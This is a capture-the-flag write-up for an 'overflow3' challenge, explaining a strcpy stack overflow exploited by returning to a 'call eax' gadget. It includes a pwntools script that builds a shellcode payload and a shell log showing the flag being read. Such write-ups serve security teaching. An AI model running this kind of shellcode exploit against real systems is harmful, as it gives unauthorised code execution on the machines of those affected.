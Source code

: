 ### Solved by superkojiman

We've got a vanilla stack overflow here. Unlike the previous overflow challenges, there's no function here that gives us a shell. strcpy() is used to copy our input to a buffer, and we can easily overflow it and overwrite EIP by passing in 80 bytes. At vuln()'s return, EAX contains a pointer to our buffer, and there's a `call eax` at 0x8048416. So we just put our shellcode in EAX and return to it:

```python
#!/usr/bin/env python
from pwn import *
context(os="linux", arch="i386")
buf = ""
buf += asm(shellcraft.linux.sh())
buf += "A"*(76-len(buf))
buf += p32(0x8048416)       # call eax
open("in.txt", "w").write(buf)
```

Run the exploit, copy the resulting in.txt to the server, and get the flag:

```
team24254@shell:/problems/overflow3$ ./overflow3 `cat ~/in.txt`
$ id
uid=1028(team24254) gid=1000(ctfgroup) euid=1079(overflow3) groups=1002(overflow3),1000(ctfgroup)
$ ls
Makefile  flag.txt  overflow3  overflow3.c
$ cat flag.txt
shellcode_more_like_hellcode
```
